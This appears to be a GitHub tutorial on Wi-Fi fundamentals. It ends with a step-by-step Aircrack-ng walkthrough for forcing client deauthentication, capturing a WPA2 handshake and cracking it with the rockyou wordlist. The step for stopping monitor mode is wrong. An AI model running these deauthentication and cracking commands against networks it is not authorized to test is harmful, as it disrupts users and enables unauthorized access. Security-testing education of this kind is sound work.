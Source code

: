 # Wireless Networking Fundamentals
1. 📶 What Is Wireless Networking?
Wireless networking allows devices to connect to a network (typically the internet) using radio waves instead of cables.

The most common type is Wi-Fi, which follows the IEEE 802.11 standard.

## Terms
- SSID (Service Set Identifier): The name of a Wi-Fi network (e.g., MyHomeWiFi)
- BSSID (Basic Service Set Identifier): The MAC address of the Access Point (e.g., 58:6D:8F:1D:2C:9A)
- AP (Access Point): The device (usually your router) that broadcasts the network
## Wi-Fi Security Protocols

Aircrack-ng is commonly used to test the security of WEP and WPA/WPA2-PSK networks.

| Protocol | Security Level | Status                    |
| -------- | -------------- | ------------------------- |
| **WEP**  | Very Weak      | Obsolete (easily cracked) |
| **WPA**  | Weak           | Obsolete                  |
| **WPA2** | Strong         | Still widely used         |
| **WPA3** | Strongest      | Newest, more secure       |


##  Wi-Fi Modes

Wireless cards can operate in different modes:

| Mode             | Description                                                 |
| ---------------- | ----------------------------------------------------------- |
| **Managed Mode** | Normal mode – connects to AP                                |
| **Monitor Mode** | Listens to all wireless traffic – needed for packet capture |
| **Master Mode**  | Acts as an Access Point                                     |
| **Ad-hoc Mode**  | Device-to-device communication without a router             |

## 802.11 Packet Types
| Type           | Purpose                                                  |
| -------------- | -------------------------------------------------------- |
| **Management** | Establish and maintain connections (e.g., beacon, probe) |
| **Control**    | Help with delivery of data (e.g., RTS/CTS, ACK)          |
| **Data**       | Actual payload (your internet traffic)                   |

##  4-Way Handshake (WPA/WPA2)

When a client connects to a WPA/WPA2-secured network, a 4-step handshake occurs:

AP sends a nonce (random number) to client.

Client uses that nonce + password to generate key.

Client sends its own nonce to AP.

AP confirms and both now share the key.

Capturing this handshake is the first step in cracking WPA/WPA2 using Aircrack-ng.


## Step-by-Step: WPA2 Handshake Capture & Crack
Step 1: Set Up Environment
```
sudo apt update && sudo apt install aircrack-ng
```

Check Wi-Fi interface:
```
iwconfig
```

Step 2: Enable Monitor Mode

Killing interface process `sudo airmon-ng check kill` starting monitor mode `sudo airmon-ng start wlan0`.verify you in monitor mode `iwconfig`
```
sudo airmon-ng check kill          # Stop conflicting processes
sudo airmon-ng start wlan0         # Replace wlan0 with your interface name

```


Step 3: Capture Handshake
Scan networks
```
sudo airodump-ng wlan0mon
```
Look for your router's SSID and BSSID. Press Ctrl+C once you see it.

Then:
```
sudo airodump-ng --bssid <BSSID> --channel <CH> -w handshake wlan0mon
```

Force Handshake via Deauthentication

```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

This will disconnect a client. When it reconnects, a handshake will be captured.

Check handshake capture:
```
aircrack-ng handshake-01.cap
```

Crack the WPA2 Password

ou need a wordlist. Kali has one at /usr/share/wordlists/rockyou.txt.gz:
```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> handshake-01.cap
```




stopping monitor mode:
```
sudo airmon-ng start wlan0mon
```

start 
```
sudo systemctl start NetworkManager
```









